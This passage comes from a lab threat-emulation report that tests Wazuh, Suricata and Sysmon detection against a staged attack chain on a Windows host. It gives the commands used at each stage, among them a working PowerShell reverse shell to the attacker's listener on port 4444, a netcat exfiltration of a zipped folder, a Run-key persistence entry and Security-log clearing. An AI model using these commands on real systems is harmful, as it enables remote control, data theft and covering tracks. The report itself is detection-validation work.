- This is the clearest example of **defense in depth**: the network sensor sees the transfer, FIM sees the file land, and VirusTotal says the hash is malicious. Losing one layer still leaves two.
- The standard EICAR file was used because its hash is known worldwide; a self-made test file returned `found: 0` in an earlier attempt.
- **Limits.** Suricata inspects the HTTP body only in clear text. The built-in `87105` rule tags the event as T1203 (Exploitation for Client Execution), not T1105.
- **Rules that did not match this download.** The curl-download rule (`1000011`) requires a URI ending in `.sh`, `.ps1`, `.exe`, `.bat` or `.dll`, so `.com` does not match.
- The raw VirusTotal alert preserved in the baseline report dates from an earlier run on 2026-08-17; for this chain the VirusTotal and FIM alerts are documented by the screenshots.

**Verdict: ✅ Detected** (custom `100306` with raw alert; FIM and VirusTotal by screenshot).

---

### Stage 7 — Persistence (T1547.001)

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "UpdaterSvc" /t REG_SZ /d "C:\Windows\System32\calc.exe" /f
```





**Original event, 2026-08-28:** a Windows Sysmon Event ID 13 `SetValue` produced the **built-in rule `92302`**, level 6, for `reg.exe` writing `...\CurrentVersion\Run\UpdaterSvc`. See the [historical raw alert](../threat-emulation/evidence-logs/stage07-sysmon-registry-runkey.json).

**Re-test, 2026-10-13:** the repository now contains a **full raw alert from custom `100406` (level 10)** for a `reg.exe` write to the Run key: [new custom alert](../threat-emulation/evidence-logs/stage07-sysmon-registry-custom-rule.json). The new rule is a child of `92302`, but **these preserved alerts are from separate runs** and are not proof that two IDs fired on a single event. The `HKCU` location is recorded by Sysmon as `HKU\<user SID>\...\Run\UpdaterSvc`. This proves registry modification at write time; it does not prove a binary later launched from the key.

**Verdict: ✅ Tested persistence write confirmed by custom rule `100406` in the later run.**

---

### Stage 8 — Command and Control (T1071)

```bash
# Kali — listener
nc -lvnp 4444
```

```powershell
# Windows — reverse shell started from the SSH session
$client = New-Object System.Net.Sockets.TCPClient("192.168.60.135",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | %{0}
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```



*Figure 10 — Stage 8 evidence screenshot (as placed in the original writeup).*

**Alert observed**

| Field | Value |
|---|---|
| Rule | `100304` (sid `1000006`, rev 2) — possible reverse shell, suspicious outbound port, level 12 |
| Time | 2026-08-29 07:45:49 |
| Connection | `192.168.60.1:62602` → `192.168.60.135:4444`, TCP |
| Flow | 1 packet to server (66 bytes), 0 to client — the first packet only |
| MITRE | T1071 / TA0011 |

**Analysis**

- The connection direction is the point: the **victim initiates** the outbound session to the attacker, which is how reverse shells slip past inbound filtering. The attacker started it by running the PowerShell code through SSH.
- **The evidence is from rule revision 2**, which fired on the first packet (the flow shows no reply). The current revision 3 requires an established flow, so this stage should be re-run to confirm the newer rule still triggers once the listener completes the handshake.
- The payload is PowerShell, so the banner-based rule `1000010` (which matches the `cmd.exe` banner) is not expected to fire.
- Endpoint-side rules (`100404`, outbound connection from PowerShell) were also expected but no Sysmon alert for this connection is preserved.
- Port `4444` is a signature-style indicator; the detection works for this test but would miss the same shell on another port (see recommendations).

**Verdict: ✅ Detected at the network layer** (custom `100304`); endpoint layer not evidenced.

---

### Stage 8b — LSASS ProcessAccess false-positive analysis (T1003.001)

The intended Stage 8b exercise involved testing whether a ProcDump-origin process-access event would be identified as potential LSASS credential dumping. **That specific positive event has not been verified.** The provided screenshot illustrates the current investigation; it must not be described as a successful memory dump.



**Full preserved evidence:** [Sysmon EID 10 / built-in Wazuh `92900` Defender event](../threat-emulation/evidence-logs/stage08b-rule-100411-lsass-false-positive-windowsdefender.json).

| Field | Observed value |
|---|---|
| Event / decoder | Sysmon Event ID `10`, `windows_eventchannel` |
| SourceImage | `C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.26080.4-0\MsMpEng.exe` |
| TargetImage | `C:\Windows\system32\lsass.exe` |
| GrantedAccess | `0x101000` |
| CallTrace | `ntdll.dll`, `KERNELBASE.dll`, many `mpengine.dll` frames |
| Wazuh selection | **Built-in `92900` level 12**, not custom `100411` |
| Assessment | **Likely benign / false-positive candidate**, not confirmed malicious behavior |

The **committed** custom `100411` uses `<if_group>sysmon_event_10</if_group>`, not `<if_sid>92900</if_sid>`. Its Defender-path exclusion and exact access-mask list both exclude this observed event (`0x101000` is not in the allowed masks). Custom `100416` is a child of `100411` that also checks for `dbghelp.dll`, `dbgcore.dll`, or `UNKNOWN` in the trace; none appears. **The `100411` exclusion does not suppress the built-in `92900` alert.**

The old [short `100411` ProcDump excerpt](../threat-emulation/evidence-logs/stage08b-rule-100411-lsass-excerpt.json) contains a claimed rule ID and source/target path, but **not** a full event with index, agent, decoder, timestamp, access mask and call trace. Its provenance and true-positive status cannot be established. Do not count that excerpt as proof of a completed dump.

**Established:** EID 10 → Wazuh ingestion → built-in `92900` → analyst identification of likely Defender noise. **Not established:** ProcDump-origin EID 10, LSASS dump success, or live positive custom `100411`/`100416`.

**Verdict: ⚠️ Telemetry working; likely benign false-positive event, true-positive custom detection unverified.**

---

### Stage 9 — File Lifecycle (FIM)

```powershell
# through the reverse shell
Add-Content -Path C:\Users\LENOVO\Downloads\virustotaltest\eicar.com -Value "modified"
Remove-Item C:\Users\LENOVO\Downloads\virustotaltest\eicar2.txt -Force
```



*Figure 11 — Stage 9: file modified and file deleted, as placed in the original writeup.*

**Analysis**

- With `realtime="yes"` on the monitored folder, Wazuh's syscheck raises an alert for each change: "integrity checksum changed" (rule `550`, level 7) when the content is modified, and a deletion alert when the file is removed.
- This stage covers the part of an intrusion that leaves traces on disk after the payload landed in Stage 6: tampering with, and removal of, files.
- The evidence is a screenshot; no raw alert is preserved.
- File names differ between stages (`eicar2.com` is created in Stage 6, `eicar2.txt` is deleted here). Use the same names so the story is traceable.

**Verdict: ✅ Detected** (screenshot evidence only).

---

### Stage 10 — Cleanup / Anti-Forensics (T1070.001)

```powershell
wevtutil cl Security
# Alternative on an authorized isolated Windows lab:
Clear-EventLog -LogName Security
```



**Historical event, 2026-08-29:** Security Event ID `1102` produced built-in `63103` (level 5), [full raw alert](../threat-emulation/evidence-logs/stage10-windows-1102-log-cleared.json).

**Re-test, 2026-10-13:** the [full custom `100412` alert](../threat-emulation/evidence-logs/stage10-rule-100412-excerpt.json) is level 15 and includes agent/decoder/timestamp/event fields, even though the filename contains the word `excerpt`. This is direct evidence that **custom `100412` has triggered**, for a separate Security log clearing event. It does not prove both `63103` and `100412` produced independent alerts for the same underlying event.

**Verdict: ✅ Custom `100412` validated for the tested Windows Security Event 1102.** Forwarded central log evidence remains available even after local Security-log deletion; this does not imply recovery of deleted on-host entries.

---

### Stage 11 — Exfiltration (T1041)

```bash
# Kali — receive the file
nc -lvnp 4445 > received_exfil.zip
```

```powershell
# Windows — through the reverse shell
Compress-Archive -Path C:\Users\LENOVO\Downloads\virustotaltest -DestinationPath C:\Windows\Temp\exfil_test.zip -Force

$client = New-Object System.Net.Sockets.TCPClient("192.168.60.135", 4445)
$stream = $client.GetStream()
$bytes  = [System.IO.File]::ReadAllBytes("C:\Windows\Temp\exfil_test.zip")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
$client.Close()
```

**Status:** the writeup contains the procedure and the expected trigger (Sysmon Event ID 3, `powershell.exe` connecting to port 4445) but **no alert, no screenshot and no file-integrity check**.

**What a complete run should show**

| Check | Expected result |
|---|---|
| Sysmon EID 3 | `powershell.exe` → `192.168.60.135:4445` → alert `100413` (and `100404` / `100414` for the same connection) |
| File creation | Zip written under `\Windows\Temp\` — candidate for `100405` if Sysmon logs the extension |
| Data arrived | `Get-FileHash` of `exfil_test.zip` on Windows equals `sha256sum received_exfil.zip` on Kali |

Detection on port `4445` is signature-based and specific to this lab. A real SOC would add volume- or behaviour-based detection (unusual outbound transfer size, scripting engine talking to a rare destination).

**Verdict: ❌ Not evidenced** — highest-priority item to complete.

---

## 5. Attack Timeline (UTC)

The chain was run in three sessions: Stages 1–7 on 2026-08-28, Stages 8–10 on 2026-08-29, and a standalone Stages 2–3 re-test on 2026-10-10. A preliminary, inconclusive attempt was also made 2026-10-09. Times are taken from the preserved alerts (event time, UTC).

| Stage | Date and time | Event | Source |
|---|---|---|---|
| 1 | 2026-08-28 05:32:14 | pfSense burst alert (loopback DNS, not attributable to the scan) | pfSense `100140` |
| 2 | 2026-08-28 05:45:44 | Repeated SSH connection attempts from Kali | Suricata `100301` |
| 2 | 2026-08-28 05:46:41 | Failed logon through `sshd.exe` (`lenovo`) | Windows `60122` |
| 3 | 2026-08-28 05:46:41 | Account `LENOVO` locked out | Windows `60115` |
| 4 | 2026-08-28 06:34:55 | Encoded PowerShell command | Sysmon `100401` |
| 5 | 2026-08-28 06:48:04 | `net1 localgroup administrators` | Sysmon `92031` (built-in) |
| 6 | 2026-08-28 07:09:53 | EICAR file downloaded over HTTP | Suricata `100306` |
| 7 | 2026-08-28 07:46:46 | `UpdaterSvc` Run key written | Sysmon `92302` (built-in) |
| 8 | 2026-08-29 07:45:49 | Outbound connection to Kali on port 4444 | Suricata `100304` |
| 8b, 9, 11 | — | No timestamp preserved in the writeups | — |
| 10 | 2026-08-29 08:39:25 | Security log cleared (Event `1102`) | Windows `63103` (built-in) |
| 2 (preliminary) | 2026-10-09 ~08:05 | Failed-logon burst, but `ipAddress` shows the victim's own IP (artifact) | Windows `100408` |
| 2 (re-test) | 2026-10-10 17:37:52 | Failed-logon burst, correct `ipAddress` | Windows `100408` |
| 3 (re-test) | 2026-10-10 17:38:11 | Successful logon, 18s after the burst above | Windows `92657` (built-in) |

---

## 6. Detection Coverage Results

| Stage | Preserved evidence | Intended custom rule status | Verdict |
|---|---|---|---|
| 1 Reconnaissance | pfSense `100140` observed on **unrelated** loopback/DNS | Scan attribution not verified | ⚠️ |
| 2 Brute Force | Suricata `100301`; Security `60122`; **full `100408` SMB failure-burst re-test** | Raw custom alert confirmed | ✅ |
| 3 Successful Access | Full SMB `4624` from built-in `92657`; condensed `100410` excerpt | `100410` correlation not independently verified | ⚠️ |
| 4 Execution | Full `100401` alert | Raw custom alert confirmed | ✅ |
| 5 Discovery | Full custom `100400` ARP and `100407` correlation alerts; `100402` dashboard observations | Raw custom alerts confirmed | ✅ |
| 6 Payload Drop | Full `100306` Suricata and VirusTotal `87105`; screenshots | Raw `100306` confirmed | ✅ |
| 7 Persistence | Older `92302`, **later full custom `100406`** | Raw custom alert confirmed for re-test | ✅ |
| 8 Command & Control | Full `100304` alert from older Suricata rule revision | Confirmed for **prior revision**, not current revision | ✅* |
| 8b LSASS | Full **Defender `92900` likely benign** event; short unverified `100411` excerpt | **No positive custom `100411` / `100416`** | ⚠️ |
| 9 File Lifecycle | Existing FIM screenshot | Screenshot-level evidence only | ⚠️ |
| 10 Anti-Forensics | Older `63103`, **later full custom `100412`** | Raw custom alert confirmed for re-test | ✅ |
| 11 Exfiltration | Procedure; no verified completed transfer or data hash comparison | No positive custom `100413` | ❌ |

*The Stage 8 alert proves that an earlier Suricata signature fired on the observed network event; it does not independently prove a fully interactive C2 session.*

**Important:** Original and re-test logs were captured on different dates. Two rule IDs in this table never imply two alerts for one event. Full `100406`/`100412` evidence is present despite earlier documentation saying only built-in rules fired.

---

## 7. Gap Analysis and Re-test Plan

| Priority | Stage | Gap | Validation target |
|---|---|---|---|
| P1 | 8b | Only a likely benign Defender `92900`; **no ProcDump-origin positive custom `100411`/`100416`** | Validate rule conditions using correctly formatted `windows_eventchannel` test events or safe non-dumping process-access telemetry; do not relabel Defender activity as credential dumping |
| P1 | 11 | No evidence of completed data transfer | For a benign authorized sample, verify receipt and equal hashes; port `4445` alone is insufficient evidence |
| P1 | 1 | pfSense baseline event unrelated to the actual Nmap scan | Verify Suricata endpoint visibility and WAN/LAN packet path separately; treat NAT rewriting as unconfirmed hypothesis |
| P2 | 3 | Full `100410` correlation alert not preserved | Confirm current `frequency=2` behavior, ancestry, source-IP matching and event ordering via positive/negative tests |
| P2 | 8 | Preserved network evidence from previous Suricata revision | Re-test current signature's established-flow behavior before claiming current-version coverage |
| P3 | 5 | `arp.exe` absent from `100402`; `100400` and `100402` overlap for `net`/`net1` | Document overlap; edit detection rules separately from this documentation-only revision |
| P3 | 9 | FIM stage-specific evidence screenshot-based | Retain accurate screenshot-level claim; do not manufacture a raw event |

**Closed by newer evidence:** Stages 5 (`100400`/`100407`), 7 (`100406`) and 10 (`100412`) are supported by real custom raw alerts. This documentation edit does not add images, scripts or evidence logs.

---

## 8. Defensive Recommendations

| Stage | Prevent | Detect | Respond |
|---|---|---|---|
| Reconnaissance | Segment the network, expose fewer services | Port-scan detection on the endpoint and on the firewall | Block or rate-limit the source |
| Brute Force | MFA or key-only SSH, account lockout policy, `MaxStartups` | Failed-logon bursts correlated by user and source | Disable or reset the targeted account |
| Successful Access | Strong unique passwords, restrict who can log in over SSH | Success after a failure burst | Revoke sessions, rotate credentials |
| Execution | Script Block Logging (Event `4104`), Constrained Language Mode | Encoded commands from any parent process | Isolate the host, collect the decoded payload |
| Discovery | Least privilege | Bursts of discovery binaries by one user | Review the session timeline |
| Payload Drop | Egress filtering, application control | Network, FIM and hash-reputation alerts together | Quarantine the file |
| Persistence | Restrict Run-key writes, baseline autostart entries | Registry Run key changes (Sysmon EID 13) | Remove the entry, investigate the writer |
| Command and Control | Egress filtering by port and destination | Shell banners, scripting engines with outbound connections | Block the destination, isolate the host |
| LSASS access | Credential Guard, restrict dump tools | `ProcessAccess` on `lsass.exe` with suspicious access masks | Treat all credentials on the host as exposed |
| Anti-Forensics | Forward logs off-host in real time | Dedicated alert for Events `1102` / `1100` | Preserve the SIEM copy as evidence |
| Exfiltration | DLP, egress allow-lists | Volume- and behaviour-based network detection | Block the channel, assess data exposure |

---

## 9. Conclusion

The preserved events demonstrate network and endpoint visibility, including new verified custom `100406` Registry persistence and `100412` log-clearing alerts. The SMB success event is real, but the custom `100410` failure-to-success correlation still needs validation. Stage 8b documents useful *false-positive triage of Defender access to LSASS*, not verified ProcDump credential dumping. The same-LAN reconnaissance source, current Suricata revision, and exfiltration outcomes remain open. Documentation distinguishes **configured rules**, **real raw alerts**, **likely benign observations**, and **unproven objectives**.

---

## Appendix A — Screenshot Index

Screenshots are stored in the repository under [`screenshot/`](../screenshot/), so the report does not depend on an external host.

| Figure | Stage | File |
|---|---|---|
| 1 | Architecture | [`architecture/Architecture-and-data-flow.png`](../architecture/Architecture-and-data-flow.png) |
| 2 | 1 Reconnaissance | [`Stage1_recon.png`](../screenshot/Stage1_recon.png) |
| 3 | 2 Brute Force | [`Stage2_bruteforce.png`](../screenshot/Stage2_bruteforce.png) |
| 4 | 3 Successful Access | [`Stage3_access.png`](../screenshot/Stage3_access.png) |
| 5 | 5 Discovery | [`Stage5_discovery.png`](../screenshot/Stage5_discovery.png) |
| 6 | 6 Payload Drop (1/3) | [`Stage6_payload1.png`](../screenshot/Stage6_payload1.png) |
| 7 | 6 Payload Drop (2/3) | [`Stage6_payload2.png`](../screenshot/Stage6_payload2.png) |
| 8 | 6 Payload Drop (3/3) | [`Stage6_payload3.png`](../screenshot/Stage6_payload3.png) |
| 9 | 7 Persistence | [`Stage7_persistence.png`](../screenshot/Stage7_persistence.png) |
| 10 | 8 Command and Control | [`Stage8_C2.png`](../screenshot/Stage8_C2.png) |
| 11 | 9 File Lifecycle | [`Stage9_fim.png`](../screenshot/Stage9_fim.png) |
| 12 | 2 Brute Force, 2026-10-09 preliminary (`100408` fires, artifact `ipAddress`) | *not yet uploaded — suggested `Stage2_retest_2026-10-09_wrongip.png`* |
| 13 | 3 Successful Access, 2026-10-10 re-test (searching Discover for `100410`, only built-in `60106`/`60118` found) | *not yet uploaded — suggested `Stage3_retest_discover_60106.png`* |
| 14 | 3 Successful Access, 2026-10-10 re-test (`92657`, `67028`, `60122` sequence) | *not yet uploaded — suggested `Stage3_retest_92657.png`* |

The repository already contains `stage8b_dump.png` (false-positive investigation), `stage10_cleanup.png`, `stage7_new.png`, `stage5_evidence.png`, and `stage2_rule.png`. Proposed Figures 12–14 above are historical optional filenames, **not actual committed screenshots**; they must not be cited as existing files. The raw alerts already preserved are linked directly in this report.

---

## Appendix B — Artifacts and Cleanup

Everything the emulation leaves behind, with the command that removes it.

| Artifact | Stage | Location | Cleanup |
|---|---|---|---|
| Registry value `UpdaterSvc` | 7 | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` | `reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v UpdaterSvc /f` |
| EICAR files | 6, 9 | `C:\Users\LENOVO\Downloads\virustotaltest\` | Delete the files in the folder |
| Potential LSASS dump (creation **not verified**) | 8b | `C:\Windows\Temp\lsass_test.dmp` (planned path) | Check whether this file exists. If it does, treat it as sensitive and remove it from the isolated test host |
| Exfiltration archive | 11 | `C:\Windows\Temp\exfil_test.zip` | `del C:\Windows\Temp\exfil_test.zip` |
| Locked account `LENOVO` | 2, 3 | Windows local accounts | Follow authorized unlock procedure; `/active:yes` enables an account, not necessarily clearing account lockout |
| Cleared Security log | 10 | Windows Security log | Not recoverable on the host; the history remains in Wazuh |
| Received archive, packet capture, Hydra state | 0, 11 | Kali home directory | Delete `received_exfil.zip`, `full_chain_*.pcap`, `hydra.restore` |
| Listeners | 6, 8, 11 | Kali ports `8000`, `4444`, `4445` | Stop `http.server` and the `nc` listeners |

**Indicators for hunting this emulation:** Kali `192.168.60.135`; ports `8000`, `4444`, `4445`; Run value `UpdaterSvc`; `procdump.exe` accessing `lsass.exe`; Event `1102` on the endpoint.

---

## Appendix C — Reproducibility Notes

| Where | Issue | Correction |
|---|---|---|
| Stage 4 | The original sample used `-EncodingCommand`, which is not a valid PowerShell parameter | Use `-EncodedCommand`, as the captured log shows |
| Stage 5 | Typo `whoammi` | `whoami` |
| Stage 6 | The original command used `-0` (HTTP/1.0 switch) before the output path | Use `-o` to write the file |
| Stages 6 and 9 | File names differ (`eicar2.com` created, `eicar2.txt` deleted) | Use one set of names |
| Stage 3 | Expected logon type depends on the OpenSSH configuration | Record the logon type seen in the event |
| Stage 8 | Alternative trigger `curl http://192.168.60.135:4444` | Produces the same outbound connection to port `4444` |


---

## Appendix D — Raw Evidence Logs and Attack Scripts

Every alert referenced in Section 4 is committed as raw JSON under
[`threat-emulation/evidence-logs/`](../threat-emulation/evidence-logs/), and
every command run during the chain is committed as a runnable script under
[`threat-emulation/attack-scripts/`](../threat-emulation/attack-scripts/).
Each log file is plain JSON (one alert per file); its status (verified, condensed
excerpt, rule mismatch) is recorded in the index linked at the end of this appendix.

| Stage | Attack script(s) | Evidence log(s) |
|---|---|---|
| 0 Preparation | `00-preparation_kali.sh` | — |
| 1 Reconnaissance | `01-reconnaissance_kali.sh` | `stage01-pfsense-synburst.json` |
| 2 Brute Force | `02-bruteforce_kali.sh` | `stage02-suricata-ssh-bruteforce.json`, `stage02-windows-4625-failed-logon.json`, `stage02-rule-100408-bruteforce-retest.json` |
| 3 Successful Access | `03-successful-access_kali.sh` | `stage03-windows-4740-account-locked.json`, `stage03-rule-100410-correlation-excerpt.json`, `stage03-rule-92657-successful-logon.json` |
| 4 Execution | `04-execution_windows.ps1` | `stage04-sysmon-encoded-powershell.json` |
| 5 Discovery | `05-discovery_windows.cmd` | `stage05-sysmon-net1-discovery.json`, `stage05-rule-100400-shell-child-arp.json`, `stage05-rule-100407-recon-burst.json` |
| 6 Payload Drop | `06-payload-drop_kali.sh`, `06-payload-drop_windows.cmd` | `stage06-suricata-eicar-download.json`, `stage06-virustotal-malicious-detected.json` |
| 7 Persistence | `07-persistence_windows.cmd` | `stage07-sysmon-registry-runkey.json`, `stage07-sysmon-registry-custom-rule.json` |
| 8 Command and Control | `08-command-control_kali.sh`, `08-command-control_windows.ps1` | `stage08-suricata-reverse-shell.json` |
| 8b Credential Access | `08b-credential-access_windows.cmd` | `stage08b-rule-100411-lsass-excerpt.json` (unverified), `stage08b-rule-100411-lsass-false-positive-windowsdefender.json` (full benign-looking event) |
| 9 File Lifecycle | `09-file-lifecycle_windows.ps1` | — (screenshot only, Figure 11) |
| 10 Anti-Forensics | `10-anti-forensics_windows.ps1` | `stage10-windows-1102-log-cleared.json`, `stage10-rule-100412-excerpt.json` |
| 11 Exfiltration | `11-exfiltration_kali.sh`, `11-exfiltration_windows.ps1` | — (not yet evidenced) |

Five further logs sit under `threat-emulation/evidence-logs/` as supplementary
baseline evidence, not tied to a specific chain stage: `baseline-pfsense-udp-allowed.json`,
`baseline-pfsense-icmp-mismatch.json`, `baseline-pfsense-synburst-example1.json`,
`baseline-pfsense-synburst-e2e.json`, `baseline-suricata-portscan.json`, and
`stage08-suricata-reverse-shell-baseline-test.json` (the first reverse-shell
rule test, run before the chain).

Each stage's evidence-log status (verified / condensed / mismatched) is
indexed in [`threat-emulation/evidence-logs/README.md`](../threat-emulation/evidence-logs/README.md).
